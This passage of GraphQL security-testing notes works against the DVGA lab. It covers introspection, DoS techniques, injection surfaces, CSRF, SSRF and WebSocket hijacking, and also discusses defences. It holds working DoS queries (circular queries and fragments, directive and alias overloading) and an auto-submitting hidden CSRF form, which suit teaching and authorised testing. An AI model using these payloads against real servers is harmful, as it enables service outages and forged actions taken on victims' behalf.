- We can start with running a query that will return a list of all the query-and schema-level directives on the target server as shown below: 
	```js
		query {   
			__schema {     
				directives {       
					name       
					args {         
						name       
					}     
				}   
			} 
		}
	```
	- If you notice the **`@auth`** directive in the list, you can assume that the schema supports it. 
	- Of course, developers can call directives different things, so also look for names like **`@authorize`**, **`@authorization`**, **`@authz`**, and others.

#### Finding Authentication Directives 

- If we perform an introspection query to identify directives, we’ll know whether an **`@auth`** directive exists. 
- However, we won’t know where this directive is applied in the schema, as this information isn’t exposed in an introspection query. 
- That’s because clients don’t call schema-level directives; instead, developers use them to protect against unauthorized access, among other use cases.
- Consider the following example: 
	```js
		Type User {   
			id: ID   
			username: String   
			email: String   
			password: String @auth(requires: ADMIN)   
			role: String 
		}
	```
	- You’ll find scanning the schema for @auth directives useful in white-box penetration tests, which provide you with the SDL files. 
	- But in black-box tests that provide no access to the schema, you might know that the password field exists, for example, but not that the @auth directive applies to it.

#### Enumerating with graphql-path-enum

- Schemas can be very large, so you’ll find it helpful to automate the process of identifying all paths to a given object type. For this task, we’ll use graphql-path-enum. 
- This tool expects two important arguments: the introspection JSON response and the name of an object type we want to test for authorization issues.
- First, run a full introspection query on the target server. Send the request and copy the response to a file named introspection.json. 
- Next, provide graphql-path-enum with this file and tell it to search for all paths leading to the target object, as shown:
	```bash
	$ cd ~/graphql-path-enum 
	$ ./graphql-path-enum -i introspection.json -t PasteObject 
	Found 3 ways to reach the "PasteObject" node: 
	- Query (pastes) -> PasteObject 
	- Query (paste) -> PasteObject 
	- Query (readAndBurn) -> PasteObject	
	```
	- As you can see, graphql-path-enum traversed the introspection response and identified all possible query paths to the object. 
	- Now we can manually send these three queries to see whether any of them grant access to objects that other queries don’t.

## Denial of Service

- In the GraphQL world, several DoS vectors could lead to resource exhaustion conditions: 
	- circular queries (also known as recursive queries), 
	- field duplication, 
	- alias overloading, 
	- directive overloading, 
	- circular fragments, and 
	- object limit overriding.

### Circular Queries

- Also known as recursive queries, circular queries occur when two nodes in a GraphQL schema are bidirectionally referenced using an edge. 
- This circular reference could allow a client to build a complex query that forces the server to return an exponentially large response each time the query completes a “circle.”
	```js
		type Paste {     
			title: String     
			content: String     
			user_agent: String     
			ip_address: String     
			owner: Owner 
		}  
		
		type Owner {     
			ip_address: String     
			user_agent: String     
			pastes: [Paste]     
			name: String 
		}
	```
	- The two object types, Paste and Owner, have fields that cross-reference the other. 
	- The Paste object type has an owner field that references the Owner object, and the Owner type has a pastes field that references the Paste type. 
	- This creates a circular condition.
- A malicious client could cause a recursion by forcing the GraphQL server’s function resolver to loop. 
- This could potentially impact the server’s performance. The following query example shows what such a circular query looks like: 
	```js
		query {   
			pastes {     
				owner {       
					pastes {
						owner {           
							pastes {             
								owner {               
									name             
								}           
							}        
						}       
					}     
				}   
			} 
		}

	```

#### Identifying Circular Queries using InQL

- To execute the circular query check, we’ll pass three flags to InQL: 
	- **`-f`** flag, to use the JSON file we downloaded
	- **`--generate-cycles`** flag, to perform the circular query detection check and 
	- **`-o`** flag, to write the output to a dedicated folder. 
	- The following command combines these flags to perform the circular query detection: 
	```bash
	$ inql -f /home/kali/introspection_query.json --generate-cycles -o dvga_cycles 
	[!] Parsing local schema file [+] Writing Introspection Schema JSON 
	[+] Writing query Templates Writing systemUpdate query Writing pastes query 
	[+] Writing mutation Templates 
	[+] Writing createPaste mutation 
	[+] Writing Query Cycles to introspection_query 
	[+] DONE
```
- After the check is complete, you’ll notice that a dvga_cycles folder was created by InQL. 
- Within this folder, look for a text file that starts with the word cycles; this file will contain the result of the script’s execution. 
- You can run this command to see the outcome of the check: 
	```bash
	$ cat dvga_cycles/introspection_query/cycles* Cycles(         
											{ OwnerObject -[paste]-> PasteObject -[owner]-> OwnerObject }         
											{ OwnerObject -[pastes]-> PasteObject -[owner]-> OwnerObject } 
										)
	 ```
	 - InQL was able to find paths in the schema where a circular relationship exists between the PasteObject and OwnerObject nodes.

#### Circular Fragment Vulnerabilities

- GraphQL operations can share logic through the use of fragments. 
- Fragments are defined by the client, and as such, clients can build any logic they desire into them. GraphQL specification documentation contains rules about how fragments should be implemented:
	- ***The graph of fragment spreads must not form any cycles including spreading itself. Otherwise, an operation could infinitely spread or infiniterly execure on cycles in the underlying data.***
- An interesting condition will occur here: 
	```js
		query CircularFragment {   
			pastes {     
				...Start   
			} 
		} 
		
		fragment Start on PasteObject {   
			title   
			content   
			...End 
		} 
		
		fragment End on PasteObject {   
			...Start 
		}
	```
	- This condition leads to an infinite execution, just as the GraphQL specification suggests. 

### Field Duplication

- The strategy here is fairly simple: choose a field that you think might be expensive to resolve, and stuff the query with additional copies of that field’s name. For example: 
	```js
		query {   
			pastes {      
				title      
				content      
				content      
				content      
				content      
				content   
			} 
		}
	```
- When a query contains multiple repeating fields,  as shown above, where content is repeated five times, you might expect to see the same five fields in the response. 
- In reality, GraphQL will consolidate the response and display only a single content JSON field: 
	```js
		{   
			"data": {     
				"pastes": [       
					{         
						"title": "My Title",
						"content": "My First Paste"       
					}     
				]   
			} 
		}
	```
- From a client perspective, it might seem like GraphQL is ignoring our repeating fields. 
- Fortunately, this is not the case. Through response time analysis, you can see the query’s impact on the server. 
- Unless the server has implemented specific security defenses, such as query cost analysis, you should expect to see these vulnerabilities in most GraphQL implementations.

### Alias Overloading

- By default, GraphQL servers won’t limit the number of aliases that can be used in a single request. 
- The GraphQL application maintainer could implement custom protections, such as counting the aliases and restricting them in some middleware, but since aliases are part of the specification, it’s uncommon to remove support for them or limit their functionality.
- When performing a penetration test, you may run into queries that seem to take the server longer to process than others. 
- If you identify such a query, you can hog system resources by calling the same query over and over again. 
- If the server struggles to quickly return a response, flooding the server with the same query could result in system overload.

#### Chaining Aliases and Circular Queries

- Since aliases are part of the GraphQL specification, any other vulnerability you identify can be combined with aliases. 
- The query below shows how we can run a circular query with an alias.
	```js
		query {   
			q1:pastes {     
				owner {       
					pastes {         
						owner {           
							name         
						}       
					}     
				}   
			}   
			
			q2:pastes {     
				owner {       
					pastes {         
					owner {           
						name         
					}       
				}     
			}   
		}
	```
- The disadvantage of aliases is that they allow aliasing only queries of the same root type. You can alias queries only with queries, or mutations only with mutations, but not queries and mutations together.

### Directive Overloading

- While directives are part of the GraphQL specification, the specification does not discuss security controls that should be implemented for directives.
- However, nonexistent queries can be supplied many times. There are effectively no limits to the number of nonexistent directives a client can supply in most of the popular GraphQL implementations today.
- The attack is quite simple: stuff directives in multiple parts of a query and send it to the server, as shown below: 
```js
	query {    
		pastes {       
			title @aa@aa@aa@aa # add as many directives as possible       
			content @aa@aa@aa@aa    
		} 
	}
```
- The impact on the server can vary depending on its hardware specifications.  
- A GraphQL server might crash (due to database memory errors) or service performance degradation.

### Array-Based Query Batching

- Query batching is any method used to group multiple queries and send them to the GraphQL API in parallel. Aliases are one form of query batching.
- While useful, aliases have a clear disadvantage, as they can batch only queries that are of the same operation root type. 
- For instance, you can’t alias a mutation and a query together. The technique of array-based batching allows us to mix queries and mutations.
- However, arrays aren’t part of the specification and therefore may not be available to you during all penetration tests.
- Array-based query batching is a feature that allows a client to send multiple GraphQL queries of any root type in an array as part of a JSON payload.
- When GraphQL receives an array of queries from a client, it will process them sequentially and refrain from returning a response until the very last array element is processed and resolved. 
- Once all queries are resolved, it will return a response containing an array of all query responses in a single HTTP response.

#### Testing for Array based query batching

- GraphQL IDEs such as Altair, GraphQL Playground, and GraphiQL Explorer do not support array-based queries directly from the interface. 
- So, to test whether array-based query batching is enabled on the DVGA, we’ll need to use an HTTP client such as cURL or a scripting language such as Python.
- Using circular queries with array-based batching can wreak havoc on a GraphQL server and potentially knock it out.
- Certain GraphQL tools attempt to detect when batching is available on a target GraphQL server. For instance, BatchQL is a small Python utility that scans for GraphQL weaknesses.
- It is able to detect both alias-based batching and array-based batching by sending a preflight request and observing the errors returned by the server.
	```bash
	$ cd BatchQL 
	$ python3 batch.py -e http://localhost:5013/graphql 
	
	CSRF GET based successful. Please confirm that this is a valid issue. 
	CSRF POST based successful. Please confirm that this is a valid issue. 
	Query name based batching: GraphQL batching is possible... preflight request was successful.
	Query JSON list based batching: GraphQL batching is possible...preflight request was successful.
	```
	- BatchQL was able to detect that both array-based batching and alias-based batching are available.

### Performing DoS audit with GraphQL Cop

- GraphQL Cop is a Python-based security auditing utility capable of finding DoS and information disclosure weaknesses in GraphQL applications.
- GraphQL Cop takes very few parameters to do its work. To perform an audit, run it using the following commands: 
	```bash
		$ cd ~/graphql-cop 
		$ python3 graphql-cop.py -t http://localhost:5013/graphql
		
		                     GraphQL Cop            
		              Security Auditor for GraphQL              
			              Dolev Farhi & Nick Aleks 
			              
		[HIGH] Alias Overloading - Alias Overloading with 100+ aliases is allowed (Denial of Service) 
		[HIGH] Batch Queries - Batch queries allowed with 10+ simultaneous queries (Denial of Service) 
		[HIGH] Field Duplication - Queries are allowed with 500 of the same repeated field        (Denial of Service) 
		[HIGH] Directive Overloading - Multiple duplicated directives allowed in a query        (Denial of Service)
	```

### Defense against DoS in GraphQL

#### Query Cost Analysis
- This term refers to any system that assigns a numerical value to GraphQL fields based on how much they “cost” to process. Processing involves CPU, input/output (I/O), memory, and network resource consumption.
- Query cost analysis can be achieved in multiple ways, such as by evaluating the query structure pre-execution using static analysis or by observing the query response after it’s fully resolved.
- With static analysis, you can assign the query a cost in different ways. One common way is using a dedicated schema directive to specify values per field or per object type. The following example schema illustrates how cost assignment can be achieved through the use of schema directives: 
	```bash
		directive @cost(   
			complexity: Int = 1 
		) on FIELD_DEFINITION | OBJECT 
		
		type PasteObject {   
			title: String @cost(complexity: 1)   
			content: String @cost(complexity: 1)   
			userAgent: String @cost(complexity: 5)   
			ipAddr: String @cost(complexity: 5) 
		} 
	```
	- Here, a special cost directive accepts a complexity argument, and the complexity argument accepts an integer value. 
	- If no value is provided to the complexity argument, it defaults to 1. 
	- In the schema, the fields in PasteObject have some cost values assigned to them based on how resource heavy they are to resolve. (Imagine a field that requires the server to perform upstream checks against multiple third-party services, as opposed to a field that can be resolved by reading directly from a local database.)

#### Query Depth Limits
- To protect a GraphQL server from recursive queries, applications can set query depth limits.
- For example, setting a max_depth configuration to a value of 10 would allow up to only 10 levels of depth. Any query that exceeds the allowed depth would get rejected.
- While it doesn’t directly address the field duplication problem, query cost analysis protects GraphQL applications whenever a large number of fields are specified in a single query (whether they are duplicated or not). 
- Cost analysis is an effective mitigation against any form of attack that involves specifying many fields in a single query.

#### Limit on the number of returned records
- GraphQL servers could limit the number of objects they return when a client requests an array field. 
- To do so, they could set a maximum number of items to return on the server side and keep the client from overriding it.

#### Timeouts
- Timeouts are another form of protection against long-running and resource-consuming tasks. 
- When a GraphQL server is bombarded with many queries, it may take minutes to completely fulfill the request. 
- To mitigate these cases, servers can introduce application timeouts, which define how long a request can take to complete.

#### Web Application Firewalls
- WAFs can provide other forms of protection, such as body size restrictions (in the form of byte limits) to prevent DoS attacks, or throttling to slow DoS attempts.
- Although we can send thousands of queries in a single HTTP request by using aliases or array-based batching, WAFs without native GraphQL support won’t understand the danger in accepting such requests.

#### Gateway Proxies
- GraphQL gateways merge multiple GraphQL schemas into one unified schema, either by stitching them together or by connecting to each individual GraphQL service to fetch its schema content.
- GraphQL gateways are becoming more popular in the security space as a network choke point that can enforce policies and perform rate limiting. 
- They often act as reverse proxies, forwarding traffic to other internal API servers, and can manage multiple API schemas. 
- Gateways also provide features such as auditability, schema version control, authorization controls, Layer 7 DoS protection, and more.

## Injection

- An application that implements a GraphQL API can become vulnerable to injection vulnerabilities after it starts allowing clients to manipulate data through interfaces such as the arguments of queries, mutations, or subscriptions. 
- Even a GraphQL API that allows clients to only read data might have vulnerabilities in certain interfaces, such as query filters. While the risk can be decreased, it is almost never zero.

### Injection Surface

#### Query Arguments

- GraphQL operations such as queries, mutations, and subscriptions can be designed to accept arguments. 
- Consider the following query, which passes a limit argument with an integer value of 100. 
- While this operation is still read-only, it provides an interface for manipulating the server’s response through the use of query filters: 
	```js
		query {    
			pastes(limit: 100) {       
				id       
				ipAddr    
			} 
		}
	```
	 - This argument doesn’t allow us to execute code, but we could use it to influence the server in a variety of ways. 
	 - For example, providing a negative value (**such as -1**) to an Int-type argument such as limit could result in unexpected behaviors. 
	 - Sometimes APIs interpret **-1** value as return all, in which case the server will return the entire list of objects.

> **🗒️ NOTE**
> GraphQL is strongly typed. This means that it will reject any type mismatches when it sees them. 
> For instance, an argument of type Boolean should not accept a value of type String, only true or false values. Values provided to arguments are validated against the GraphQL schema when a query is processed during the validation phase.

- It is important to note that GraphQL APIs could (and should) have multiple layers of defensive checks in the query resolvers to mitigate against any forms of injection.
LOCATION: 5003

#### Operation Names

- Operation names are also used for other purposes, such as debugging and logging. 
- In fact, they are interesting potential injection vectors because applications can use them in many ways. 
- For instance, some applications use operation names for analytics, to determine which queries clients use the most. 
- The operation name string could end up in different systems, such as logging systems, relational databases, cache databases, and so on. 
- It is important to check whether the GraphQL API allows special characters as part of the operation name, as this could turn out to be an injectable interface. 
- Operation names are typically alphanumeric, but some GraphQL server implementations are more permissive than others when it comes to the type of characters they permit.

> **ℹ️ INFO**
> To take advantage of blind XSS vulnerabilities, you can use tools that generate unique payloads with which to test. When an XSS vulnerability is found and the payload is triggered, the payload will send probes to a centralized server for further inspection, allowing you to capture information about the client on which the payload was executed. 
> One such tool is XSS Hunter (https://xsshunter.com). Tools that notify you whenever your XSS payload triggers are pretty convenient.

## Request Forgery and Hijacking

### Cross-Site Request Forgery

- Often pronounced sea-surf, CSRF is a client-side attack that causes victims to execute unwanted actions on a website to which they are authenticated. 
- In such an attack, the attacker writes code and embeds it in a website that they operate (or, sometimes, in a third-party site that allows them to do so). 
- They then force the victim to visit that site by leveraging attacks such as social engineering. 
- When the code executes in the victim’s browser, it forges and sends a request to the server. 
- More often than not, these requests perform state-changing actions. 
- They might update the email or password of an account, transfer money from one account to another, disable account security settings such as multifactor authentication, grant permissions, or even add a new account to an application.

#### Locating state changing actions

- Consider a scenario where we need to identify state-changing operations based on mutations. 
- To find impactful CSRF vulnerabilities, try extracting the list of available mutations and searching for ones that give you a foothold in the application or allow you to escalate your existing privileges.
	```js
		query {   
			__schema {     
				mutationType {       
					fields {         
						name       
					}     
				}   
			} 
		}
	```
- GraphQL servers sometimes support operations over GET, and when they do, they might intentionally reject GET-based mutations to allow read operations using GET only. 
- This provides a degree of protection against CSRF-like vulnerabilities.
- However, if our target uses any GET-based queries to perform important state changes, that mitigation is useless.

#### Testing for POST-Based Vulnerabilites

- Now that we’ve identified a few state-changing queries and mutations, we can attempt to craft an HTML form that exploits them. Our attack might trick a user into clicking a link that redirects them to a malicious website containing a form: 
	```html
		<html>   
			<h1>Click the button below to see the proof of concept!</h1>   
			<body>      
				<form id="auto_submit_form" method="POST" action="http://localhost:5013/graphql">        
					<input type="hidden" name="query" value="mutation { createPaste(title:&quot;CSRF&quot;, content:&quot;content&quot;, public:true, burn: false) { paste { id content title burn } }}"/>        
					<input type="submit" value="Submit">      
				</form>   
			</body> 
		<html>
	```
- We use the method attribute to define a POST-based form named query. This form will perform the request to the DVGA’s URL, defined in the action attribute. 
- You’ll notice that we also define a hidden **`<input>`** tag by setting the type attribute to hidden. 
- This ensures that the form used to execute the query will remain invisible to the victim; it won’t display in their browser.
- Because HTML forms can’t send JSON-formatted data without some help from a language like JavaScript, the submitted mutation isn’t sent as JSON, as indicated by the Content-Type header. 
- Here, it is set to **`application/x-www-form-urlencoded`** rather than **`application/json`**.

#### Testing for GET-Based Vulnerabilities

- Many GraphQL implementations forbid any use of GET, but sending mutations by using the GET method is especially taboo, because it’s considered a security risk that could lead to CSRF vulnerabilities.
- GET-based CSRF attacks are somewhat more interesting than POST-based ones because applications often won’t implement anti-CSRF protections on GET requests. 
- This is because state-changing actions typically use other HTTP methods. 
- If a server allows mutations over GET, we could exploit the HTML anchor **`<a>`** tag with the hypertext reference attribute (href) to build a hyperlink that will send the mutation to the server. 
- The anchor tag executes only GET-based requests, which is why it isn’t a great candidate for POST-based CSRF exploitation: **`<a href="http://localhost:5013/graphql?query=mutation{someSensitiveAction}" />`**
- Alternatively, we could use image tags **``** with the source (src) attribute to embed our mutation, like so: **``**

#### Using HTML Injection

- A second way we could exploit GET-based CSRF is by abusing another vulnerability, such as HTML injection, which allows an attacker to inject HTML tags into a web page. 
- If a victim visits the site, their browser will render the HTML code. In particular, if an attacker is able to inject a hyperlink using the **`<a>`** tag or an image link using the **``** tag, clients will initiate the GET request when they visit the page, following the tags’ default behavior.

#### Automating Testing with BatchQL and GraphQL Cop

- BatchQL has multiple CSRF-related test cases. Let’s run it against DVGA to see what information we’re able to get about its CSRF vulnerabilities:
	```bash
		$ cd ~/batchql 
		$ python3 batch.py -e http://localhost:5013/graphql | grep -i CSRF 
		
		CSRF GET based successful. Please confirm that this is a valid issue. 
		CSRF POST based successful. Please confirm that this is a valid issue.
	```
- As you can see, we used grep with the **`-i`** flag to filter out results unrelated to CSRF vulnerabilities. 
- BatchQL detected that both GET and POST allow non-JSON-based queries. 
- **GraphQL Cop** is similar to BatchQL in the way it tests for CSRF vulnerabilities, except it additionally tests whether the server supports mutations over GET: 
	```bash
		$ cd ~/graphql-cop 
		$ python3 graphql-cop.py -t http://localhost:5013/graphql | grep -i CSRF 
		
		[MEDIUM] GET Method Query Support - GraphQL queries allowed using the GET method (Possible Cross Site Request Forgery (CSRF)) 
		[MEDIUM] POST based url-encoded query (possible CSRF) - GraphQL accepts non-JSON queries over POST (Possible Cross Site Request Forgery)
	```

#### Preventing CSRF

##### SameSite Flag
- Browsers have started supporting a special HTTP cookie attribute called **SameSite**. 
- This attribute allows developers to decide whether the client browser should attach the cookie when making cross-site requests. 
- To set this cookie attribute, the application needs to set a Set-Cookie response header. 
- This interferes with a CSRF attack’s attempt to send a request from the attacker website (say, attacker.com) to a target website of interest (banking.com).
- The SameSite cookie attribute accepts three values: 
	- **`Strict`** Send the cookie only when the user is browsing within the same origin 
	- **`Lax`** Send cookies only when the request uses HTTP GET and was not initiated by a script, such as by top-level navigation 
	- **`None`** Send the cookie on cross-site requests, effectively providing no protection
- GraphQL Servers that set cookies with the **`SameSite`** attribute will return a **`Set-Cookie`** HTTP response header:
	```basic
		Set-Cookie: session=sessionToken; SameSite=String
	```

##### Anti-CSRF Tokens
- To protect against CSRF vulnerabilities at the server level, web frameworks introduced anti-CSRF tokens. 
- These are hard-to-guess, cryptographically strong, and unique strings generated on the server. 
- The server expects the client to pass an anti-CSRF token on every request. 
- When a server sees an incoming request without such a token, the server rejects that request. 
- Servers can generate anti-CSRF tokens per request or once for the lifetime of a user session. 
- Generating a token per request is stronger mitigation and more difficult to defeat because it reduces the amount of time an attacker has to obtain a valid token. Once a token gets invalidated, the server should no longer accept it.

### Server-Side Request Forgery

- When testing GraphQL servers for SSRF, examine all possible operations, whether they’re mutations or queries. 
- As you might expect, SSRF typically affects one or more vulnerable GraphQL arguments that accept values, such as scalars. 
- Also pay close attention to GraphQL field names to see what they were designed to do. 
- For example, fields whose names include verbs such as fetch, import, download, or read could all imply that the server performs an action, such as reading from somewhere or fetching a resource. 
- In addition to field names, certain argument names could suggest that the server is attempting to perform an outbound connection to resolve the query.
- Some of the examples include: 
	```basic
		ip
		url
		host
		network
		domain
		site
		target
		fetch
		img_url
		target_url
		remote_url
	```

### Cross-Site Websocket Hijacking

- CSWSH is a CSRF vulnerability that impacts the handshake part of WebSocket communications, which use cookie-based authentication. 
- Because GraphQL APIs can use WebSocket for subscription operations, they risk being vulnerable to CSWSH.
- CSWSH can occur when a WebSocket connection handshake doesn’t include an anti-CSRF token to prevent attackers from performing cross-origin requests. 
- When no such token exists, it’s easy for an attacker to develop special code that forges WebSocket messages on behalf of the victim and uses their authenticated session.
- In addition to anti-CSRF tokens, WebSocket servers should also validate the Origin header in the WebSocket handshake request. 
- The Origin header has an important security function, as it identifies the request’s source. 
- If a server doesn’t check this header, it won’t know whether the handshake request was forged. 
- Any handshake with an unauthorized origin should return a 403 Forbidden response code rather than 101 Switching Protocols.
- CSWSH vulnerabilities lie at the transport protocol level and so aren't flaws in GraphQL itself. In the context of GraphQL, you'll find them only when a GraphQL API uses **Subscriptions** to perform real-time updates. 

#### Preventing CSWSH

- Because CSWSH is a CSRF attack, you can prevent it by using CSRF mitigation techniques. 
- WebSocket servers that use forms of authentication other than cookies to authenticate clients, such as JWT, can also offer protections.
- Validation of the Origin header is also crucial to preventing CSWSH attacks, and from a hacker’s perspective, this validation is worth testing for bypasses. Servers may check the header in odd ways.
- For instance, if the application allows only the origin example.com, an attacker might try creating a domain that uses it as its subdomain, like example.com.attacker.net. 
- If the server validates the Origin header in a naive way (for instance, by checking for the string example.com), such an attack might pass the validation logic.